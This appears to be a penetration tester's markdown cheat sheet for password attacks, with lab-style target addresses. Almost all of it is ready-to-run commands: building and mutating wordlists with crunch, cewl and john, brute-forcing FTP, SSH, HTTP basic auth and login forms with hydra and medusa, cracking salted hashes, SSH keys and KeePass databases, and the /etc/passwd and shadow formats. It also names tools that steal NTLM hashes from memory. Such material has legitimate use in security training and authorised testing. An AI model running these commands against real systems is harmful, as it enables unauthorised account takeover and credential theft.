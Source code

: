 # Cheetsheet

## Finding Passwords
```
grep -rl hash
grep -rl password
```

## Wordlist creation
```
crunch 6 6 0123456789ABCDEF -o list.txt
crunch 8 8 -t ,@@^^%%%
```
```
/usr/share/crunch/charset.lsr mixalpha -o  mixda.txt
```

## Wordlist using keywords from a site
```
cewl example.com -m 6 -w out.txt
```

## Mutate wordlists
```
/etc/john/john.conf
> $[0-9]$[0-9]
```

```
john --wordlist=out.txt --rules --stdout > mutated.txt
```

## Tools
- pwdump
- fgdump
- windows credential editor (WCE) - Steal NTLM hashes from memory and auth modules

## Password Cracking
```
john hashes.txt
```

## Htaccess

```
medusa -h ip -u admin -P passwords.txt -M http -m DIR:/admin -T 20
```

## FTP
```
hydra  -l admin -P pass.txt -v ip ftp
```

## HTTP Post
```
hydra -l none -P rockyou.txt 10.10.10.43 http-post-form
"/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```

## SSH

```
hydra -L usernames.txt -P passwords.txt -s 2222 ssh://10.10.10.66 -v -t 4
```

## Basic Auth
```
cewl example.com -m 6 -w /root/mega-cewl.txt 2> /dev/null
john --wordlist=mega-cewl.txt --rules --studout > mega-cewl-mutated.txt
medusa -h admin.example.com -u admin -P mega-cewl-mutated.txt -M http -n 81 -m DIR:/admin -T 30
```

## Salted Hash Cracking

### oclHashcat

oclHashcat input file should be in format: `passwordhash:salt`

```
oclHashcat-plus64.bin -m 110 hashes.txt ../big-wordlist --force
```

## RSA Private Key Password Recovery

```
ssh2john id_rsa > id_john
john id_john --wordlist=<PATH TO ROCKYOU.TXT>
```

## KeePass Password Recovery

```
keepass2john jeeves.kdbx > jeeves.hash
john jeeves.hash
```

## /etc/passwrd format

- [Understanding /etc/passwd File Format](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)
- [Linux Password & Shadow File Formats](https://www.tldp.org/LDP/lame/LAME/linux-admin-made-easy/shadow-file-formats.html)
- Password Field
  - Format: `$id$salt$hashed` (`$id$$hashed` means no salt)
  - `*` account cannot be used to log in
  - `!!` user doesn't have a password
  - ` ` user doesn't have a password
  - `x` password is stored in the shadow file
  - id
    - `$1$` is MD5
    - `$2a$` is Blowfish
    - `$2y$` is Blowfish
    - `$5$` is SHA-256
    - `$6$` is SHA-512

Verify
```
pwck -r /etc/passwd
pwck -r /etc/shadow
```

Edit
```
vipw -p
vipw -s
vipw -g
```

Manually create password
```
openssl passwd -1 -salt xyz  yourpass
makepasswd --clearfrom=- --crypt-md5 <<< YourPass
mkpasswd  -m sha-512 -s <<< YourPass
echo -e "md5crypt\npassword" | grub | grep -o "\$1.*"
perl -e 'use Crypt::PasswdMD5; print unix_md5_crypt("Password", "Salt"),"\n"'
```

Update password
```
echo "username:password" | chpasswd
```
```
perl -e 'print crypt("YourPasswd", "salt"),"\n"'
echo "username:encryptedPassWd"  | chpasswd -e
OR
useradd -p 'encryptedPassWd'  username
```
